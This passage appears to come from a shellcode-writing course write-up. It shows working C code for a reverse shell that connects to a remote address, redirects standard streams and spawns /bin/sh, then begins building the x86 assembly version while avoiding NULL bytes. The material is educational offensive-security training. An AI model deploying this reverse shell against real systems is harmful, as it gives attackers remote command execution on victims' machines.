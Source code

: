 ```c
    sa.sin_family = AF_INET;
    sa.sin_addr.s_addr = inet_addr(REMOTE_ADDR);
    sa.sin_port = htons(REMOTE_PORT);
    //first syscall socket
    s = socket(AF_INET, SOCK_STREAM, 0);
    //second syscall connect
    connect(s, (struct sockaddr *)&sa, sizeof(sa));
    //third syscall dup2
    dup2(s, 0);
    dup2(s, 1);
    dup2(s, 2);
    
    //final syscall execve
    execve("/bin/sh", 0, 0);
    return 0;
}
```
After confirming that the code does indeed work by setting the REMOTE_ADDR to "127.0.0.1" and the port to 443 and trying it on my Kali machine, it's become apparent we need to execute 4 syscalls in our assembly code:
+ ***socket***
+ connect
+ ***dup2***
+ ***execve***

The syscalls I've highlighted, we already have code for from Assignment #1. Connect actually behaves very similarly to bind, with pretty much the only difference being we won't be specifying a local interface IP address but rather a remote IP address so it's unlikely to be `0.0.0.0` in our reverse shell code. 

## Building Our Assembly Code

### Assembly Skeleton Code
```nasm
global_start

section .txt
_start:
```
The first thing we want to do is to clear out the registers we're going to use immediately. How do we know what registers we want to use? You can think of your syscall as something like an argv[0] in a command line program. So that's always going to correspond with the first register, EAX. Subsequent arguments will follow sequentially: argv[1] will correspond to EBX, argv[2] will correspond to ECX, etc.

If we consult `man 2 socket` for our first syscall, socket, we see that it takes 3 arguments in the following fashion:`int socket(int domain, int type, int protocol);`

So counting the syscall itself and its 3 arguments, we need to clear the first 4 registers so that we can work with those. Let's clear them by XOR'ing them with themselves so that we clear them in a way that does not introduce NULL BYTEs into our shellcode.
